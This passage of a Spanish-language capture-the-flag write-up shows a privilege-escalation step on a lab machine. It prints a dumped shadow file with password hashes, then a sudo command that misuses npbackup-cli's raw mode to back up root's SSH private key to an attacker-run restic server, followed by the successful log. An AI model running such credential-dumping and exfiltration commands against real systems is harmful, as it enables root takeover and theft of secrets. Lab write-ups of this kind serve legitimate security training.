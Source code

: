 ```
nobody:*:19430:0:99999:7:::
systemd-network:*:19430:0:99999:7:::
systemd-resolve:*:19430:0:99999:7:::
systemd-timesync:*:19430:0:99999:7:::
messagebus:*:19430:0:99999:7:::
syslog:*:19430:0:99999:7:::
_apt:*:19430:0:99999:7:::
tss:*:19430:0:99999:7:::
uuidd:*:19430:0:99999:7:::
tcpdump:*:19430:0:99999:7:::
landscape:*:19430:0:99999:7:::
pollinate:*:19430:0:99999:7:::
fwupd-refresh:*:19430:0:99999:7:::
usbmux:*:20010:0:99999:7:::
sshd:*:20010:0:99999:7:::
systemd-coredump:!!:20016::::::
marco:$6$i5xRI7UVqeBITIby$NQKHXVvAWz7Vl3QkEwgxw0ItF9Lwen4gGCBi.YYiDQTdkgcPABaqfmBzheAM/9JA/9J7szqDzPaIDbkNqc.0V.:20022:0:99999:7:::
lxd:!:20016::::::
app:$6$5iH3Zik78QR8t9Se$bgRAig/YjbMzwOTFME629sLrrTn2avVD9pLFwz0X2zBTz0LYfNIEuw6w5s53NNu2K7IeEJK4D6j9PB6SR.UvC0:20022:0:99999:7:::
mysql:!:20026:0:99999:7:::
_laurel:!:20256::::::
```

Vemos que efectivamente ha funcionado, por lo que vamos a probar a obtener la clave `PEM` del usuario `root` a ver si existiera, haciendo el mismo proceso anterior.

```shell
sudo /usr/local/bin/npbackup-cli -c /home/marco/npbackup.conf --raw "backup -r 'rest:http://<IP>:6666/Pwn3d' --password-file /tmp/restic-password /root/.ssh/id_rsa"
```

Info:

```
2025-09-19 16:39:24,343 :: INFO :: npbackup 3.0.1-linux-UnknownBuildType-x64-legacy-public-3.8-i 2025032101 - Copyright (C) 2022-2025 NetInvent running as root
2025-09-19 16:39:24,375 :: INFO :: Loaded config 4E3B3BFD in /home/marco/npbackup.conf
2025-09-19 16:39:24,386 :: INFO :: Running raw command: backup -r 'rest:http://10.10.14.85:6666/Pwn3d' --password-file /tmp/restic-password /root/.ssh/id_rsa
no parent snapshot found, will read all files

Files:           1 new,     0 changed,     0 unmodified
Dirs:            2 new,     0 changed,     0 unmodified
Added to the repository: 3.570 KiB (3.470 KiB stored)

processed 1 files, 2.541 KiB in 0:00
snapshot f17a625d saved
2025-09-19 16:39:27,431 :: INFO :: Successfully run raw command:
no parent snapshot found, will read all files

Files:           1 new,     0 changed,     0 unmodified
Dirs:            2 new,     0 changed,     0 unmodified
Added to the repository: 3.570 KiB (3.470 KiB stored)

processed 1 files, 2.541 KiB in 0:00
snapshot f17a625d saved

2025-09-19 16:39:27,433 :: INFO :: Runner took 3.047177 seconds for raw
2025-09-19 16:39:27,433 :: INFO :: Operation finished
2025-09-19 16:39:27,439 :: INFO :: ExecTime = 0:00:03.098817, finished, state is: success.
```
